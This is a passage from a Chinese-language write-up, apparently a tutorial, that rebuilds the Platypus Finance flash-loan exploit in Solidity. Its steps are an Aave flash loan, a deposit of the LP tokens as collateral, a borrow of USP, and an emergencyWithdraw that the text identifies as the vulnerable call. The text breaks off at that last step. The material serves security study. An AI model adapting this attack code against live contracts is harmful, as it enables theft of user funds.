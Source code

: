 ```solidity
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        USDC.approve(address(aaveV3Pool),   amount + premium);//44,022,000e6变成44_022_000e6
        USDC.approve(address(platypusPool), amount);
        platypusPool.deposit(address(USDC), amount, address(this), block.timestamp+1000);//
        return true；
 }
```
### - step3：将LP Token存入 `masterPlatypusV4` 作为抵押物
```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
         //step3
        uint256 LP_USDC_myBalance = LP_USDC.balanceOf(address(this));
        LP_USDC.approve(address(masterPlatypusV4), LP_USDC_myBalance);
        masterPlatypusV4.deposit(4, LP_USDC_myBalance);
        
        return true;
 }
```
### - step4：向 `platypusTreasure` 借款USP，`platypusTreasure` 会检查 step3 用户的抵押金额。
```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
        PlatypusTreasure.PositionView memory positionView = platypusTreasure.positionView(address(this), address(LP_USDC));
        uint256 borrowLimitUSP = positionView.borrowLimitUSP;
        platypusTreasure.borrow(address(LP_USDC), borrowLimitUSP);
        
        return true;
 }
```
### - **step5：向 `masterPlatypusV4的emergencyWithdraw`紧急取款 LP Token**（漏洞在此）
```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
      ...
```